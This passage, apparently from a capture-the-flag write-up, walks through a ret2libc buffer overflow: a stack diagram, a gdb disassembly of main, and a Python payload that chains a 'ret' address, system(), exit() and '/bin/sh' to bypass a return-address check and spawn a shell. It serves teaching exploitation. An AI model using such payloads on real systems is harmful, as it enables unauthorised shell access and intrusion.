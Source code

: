 If we take our previous scheme of the stack by adding the address of the `main` function :

```lua
<high address>
+------------------------------+  <-- Top of the stack
|       "/bin/sh" string       |  <-- Argument for system() ("/bin/sh" string)
+------------------------------+
|     Address of system()      |  <-- EIP redirected to system()
+------------------------------+
|   4 empty bytes (padding)    |  <-- Stack alignment
+------------------------------+
|       Address of exit()      |  <-- Address of the exit() function
+------------------------------+
|  Address of ret (ret main)   |  <-- Address of a `ret` instruction in main (bypass the check)
+------------------------------+
|      Old return address      |  <-- Buffer overwritten here
+------------------------------+
|                              |
|                              |
.            etc...            .
.                              .
<low address>
```

1. Return address (`ret` `main`): Here we place the address of a `ret` instruction present in the `main` function, such as `0x0804854b`, this address does not start with `0xb`, so it bypasses the security condition
2. Address of `system()`: Once the security condition is bypassed, execution will be redirected to the `system()` function in the `libc`, using this address
3. Argument `/bin/sh`: The argument for the `system()` function, here a string representing a `shell` (`/bin/sh`), which will be executed
4. Address of `exit()`: After executing `system()`, we call `exit()` so that the program terminates cleanly without causing a crash (we can also place 4 random bytes to align the stack)

_Let's bypass the protection !_

```sh
(gdb) disass main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
(gdb)
```

Let's add the address of the `ret` of the `main` function to the payload :

```sh
python -c 'print "A" * 80 + "\x4b\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat
```
